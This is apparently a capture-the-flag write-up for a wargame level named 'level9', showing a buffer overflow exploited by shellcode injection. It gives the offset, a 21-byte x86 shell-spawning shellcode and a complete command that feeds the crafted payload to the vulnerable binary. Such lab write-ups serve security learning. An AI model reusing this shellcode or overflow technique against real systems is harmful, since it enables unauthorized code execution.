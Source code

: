 # level9

In this level, we will do a shellcode injection.

According to the [gdb explains](gdbwriteup.md), we can find the offset of the buffer and the size that we will need for our shellcode.

-------------------------
| offset                    | 108                                                                                   |
|---------                  |-                                                                                      |
|shellcode size             | 21                                                                                    |
|shellcode                  | \x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80  |
| address of the string     | 0x0804a00c
-----------------------

For our script, we will use this format:

```bash
 address of the string + 4 + shellcode + (OFFSET - shellcode size - 4) + address of the string
```

```bash
./level9 $(python -c "print( '\x10\xa0\x04\x08' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'B' * 83 + '\x0c\xa0\x04\x08')")
```